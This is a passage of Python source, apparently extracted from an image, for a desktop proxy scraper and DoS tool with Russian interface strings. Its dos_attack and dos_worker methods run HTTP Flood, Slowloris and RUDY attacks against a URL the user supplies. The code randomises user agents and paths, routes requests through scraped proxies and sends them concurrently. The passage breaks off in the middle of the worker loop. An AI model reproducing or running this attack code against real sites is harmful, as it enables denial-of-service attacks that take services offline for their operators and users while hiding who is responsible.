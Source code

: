     def stop_checking(self):
        self.is_running = False
        self.checker_start_btn["state"] = "normal"
        self.checker_stop_btn["state"] = "disabled"
        self.checker_status.config(text="Остановлено")

    def clear_proxies(self):
        self.working_proxies.clear()
        self.checker_proxies.clear()
        self.scraper_tree.delete(*self.scraper_tree.get_children())
        self.checker_tree.delete(*self.checker_tree.get_children())
        self.scraper_status.config(text="Очищено")
        self.checker_status.config(text="Очищено")
        logging.info("Списки прокси очищены")

    async def dos_attack(self, url, attack_type, proxy=None):
        try:
            async with aiohttp.ClientSession() as session:
                headers = json.loads(self.dos_custom_headers.get()) if self.dos_custom_headers.get() else {}
                headers["User-Agent"] = random.choice(USER_AGENTS)
                path = f"/{''.join(random.choices('abcdefghijklmnopqrstuvwxyz', k=10))}" if self.dos_random_path.get() else ""
                target = url + path
                if attack_type == "HTTP Flood":
                    async with session.get(target, headers=headers, proxy=proxy, timeout=self.timeout.get()) as resp:
                        status = "Успех" if resp.status == 200 else f"Ошибка {resp.status}"
                elif attack_type == "Slowloris":
                    async with session.get(target, headers=headers, proxy=proxy, timeout=30) as resp:
                        await asyncio.sleep(10)
                        status = "Успех"
                elif attack_type == "RUDY":
                    headers["Content-Length"] = "100000"
                    async with session.post(target, headers=headers, data=(b"a" * 10), proxy=proxy) as resp:
                        status = "Успех"
                else:
                    status = "Не поддерживается"
                self.dos_log.insert(tk.END, f"[{attack_type}] {target}: {status}\n")
                self.dos_log.see(tk.END)
                return status
        except Exception as e:
            logging.error(f"DoS ошибка {url}: {e}")
            self.dos_log.insert(tk.END, f"[{attack_type}] {url}: Ошибка {e}\n")
            self.dos_log.see(tk.END)
            return f"Ошибка {e}"

def dos_worker(self):
    url = self.target_url.get().strip()
    if not url.startswith(("http://", "https://")):
        url = f"http://{url}"
    total_requests = self.dos_requests.get()
    rate_limit = self.dos_rate_limit.get()
    proxies = [self.dos_proxy_listbox.get(i) for i in range(self.dos_proxy_listbox.size())]
    selected_attacks = [atype for atype, var in self.dos_attack_types.items() if var.get()]
    if not selected_attacks:
        messagebox.showwarning("Ошибка", "Выберите тип атаки")
        return
    completed = 0
    while self.dos_running and completed < total_requests:
        tasks = []
        for _ in range(self.dos_threads.get()):
            if completed >= total_requests:
                break
            attack_type = random.choice(selected_attacks)
            proxy = random.choice(proxies) if proxies and self.port_scan_use_proxy.get() else None
            tasks.append(self.dos_attack(url, attack_type, proxy))